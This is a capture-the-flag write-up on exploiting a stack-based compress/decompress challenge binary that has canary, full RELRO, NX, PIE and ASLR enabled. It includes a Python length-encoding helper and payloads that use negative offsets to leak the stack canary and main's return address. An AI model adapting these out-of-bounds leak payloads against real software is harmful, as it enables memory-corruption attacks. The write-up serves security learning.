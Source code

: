 # The Exploit

A big issue we have to deal with in the exploitation is that the main function is very restrictive, it simply calls the compress or decompress function with your input and then returns.

Our compressed / decompressed strings will all be placed **in the stack**, this is not a heap challenge.

The binary also has **all protections** active. Canary, full relro, NX, pie, and obviously ASLR.

We're pretty much forced to **obtain** **leaks and a second stage (call main again)**, all with a single decompress payload. How?

## The Leaks

The leaks were easier to reason about, so I started doing these. They're also the first thing you need to obtain so that's great.

Basically, we can poison the pattern length metadata so that the decompress goes to search for bytes to copy out of bounds.

We need negative values to leak bytes on higher addresses than the output array.

I implemented this function to help me craft length values: 

```python
def make_length(n):
    i = 0
    out = 0
    while n != 0:
        out |= (n & 0x7f) << (8*i)
        n >>= 7
        # set MSB to 1 if length continues
        if n != 0:
            out |= 0x80 << (8*i)
        i += 1

    numb = out.bit_length()//8 + 1
    b = out.to_bytes(numb, 'little').rstrip(b'\x00')
    return b.hex().encode()
```

Since the variables are signed 64 bit integers, we can craft negative values like this 

```python
# make_length(2**64 - offset)
# payload to leak the canary
canary_leak = b'54494e59ff' + make_length(2**64 - 4104) + make_length(8) + b'ff0000'
# THIS LEAKS MAIN'S RETADDR AND CANARY, IN THAT ORDER
uberleak = b'54494e59ff' + make_length(2**64 - 4104 - 0x30) + make_length(8) + b'ff' + make_length(2**64 - 4104+8) + make_length(8) + b'ff0000'
```

In this example, 4104 is the offset of the canary relative to the output array in the stack.
